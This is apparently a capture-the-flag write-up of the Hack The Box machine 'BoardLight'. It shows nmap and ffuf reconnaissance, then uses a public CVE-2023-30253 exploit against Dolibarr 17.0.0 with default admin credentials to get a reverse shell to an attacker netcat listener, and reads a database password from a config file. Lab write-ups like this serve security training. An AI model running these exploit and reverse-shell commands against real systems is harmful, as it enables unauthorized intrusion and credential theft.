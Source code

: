 # BoardLight

**Date:** 14, jun, 2024

**Author:** H3cktor



### Recon

**Using NMAP to make Recon**&#x20;

```bash
nmap -sC -sV 10.10.11.11
```

\-sV => Attempts to determine the version of the service running on port

\-sC  => Scan with default NSE scripts. Considered useful for discovery and safe

<figure><img src="../../../../.gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

After the **nmap** scan we can see an apache server listening on port 80:

Lets add this to our host file:

```bash
sudo nano /etc/hosts
```

<figure><img src="../../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>



Lets first try to do a directory search to try to find any hidden files/**directory's**. I will use **gobuster**  to do this:

<figure><img src="../../../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

Make subdomain enumeration Using **FFUF**

```bash
ffuf -H "Host: FUZZ.board.htb"  -u http://10.10.11.11/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt  -fw 6243

```

<figure><img src="../../../../.gitbook/assets/image (16) (1).png" alt=""><figcaption></figcaption></figure>

See i found the Subdomain crm.10.10.11.11

<figure><img src="../../../../.gitbook/assets/image (25).png" alt=""><figcaption></figcaption></figure>



**I Found the crm  panel**

<figure><img src="../../../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>

Ok Now Found the Dolibarr version 17.0.0 and i Search in Google to get any CVE&#x20;

i found [Dolibarr-17.0.0-CVE-2023-30253](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253)

Reverse Shell POC exploit for **`Dolibarr <= 17.0.0 (CVE-2023-30253)`**, PHP Code Injection

```bash
sudo python3 exploit.py   http://crm.board.htb admin admin  <ip Your tun0> 9000

```



listen revers shell => Must run listening in First

```
nc -nvlp 9000
```

\
First I provided a listener and then executed the exploit.py file. Then I provided the credentials as well as my attacker ip and the listening port. After executing, I successfully got a reverse shell

<figure><img src="../../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>



B0000000M!

<figure><img src="../../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

I cat Found in pass or Cardantional&#x20;

put i see the user name larissa

<figure><img src="../../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

I found the main database password in the file.

<figure><img src="../../../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (22).png" alt=""><figcaption><p>User Own</p></figcaption></figure>

